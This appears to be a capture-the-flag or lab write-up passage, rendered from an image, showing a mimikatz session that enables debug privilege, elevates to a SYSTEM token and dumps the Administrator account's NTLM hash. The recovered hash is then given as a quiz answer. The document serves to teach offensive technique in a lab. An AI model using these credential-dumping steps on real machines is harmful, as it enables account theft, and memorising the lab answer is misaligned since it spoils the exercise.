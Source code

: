 ```
PS C:\Windows\system32> \\tsclient\share\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

668     {0;000003e7} 1 D 24742          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;00263a20} 1 F 2668993     GAIA\adm1n      S-1-5-21-1966530601-3185510712-10604624-1009    (13g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 2714625     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```

# Question : What is the Administrator account's NTLM password hash?
```

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: c16444961f67af7eea7e420b65c8c3eb
```
# Answer : c16444961f67af7eea7e420b65c8c3eb
# Task 8: Conclusion - Final Thoughts

Read the conclusion ^^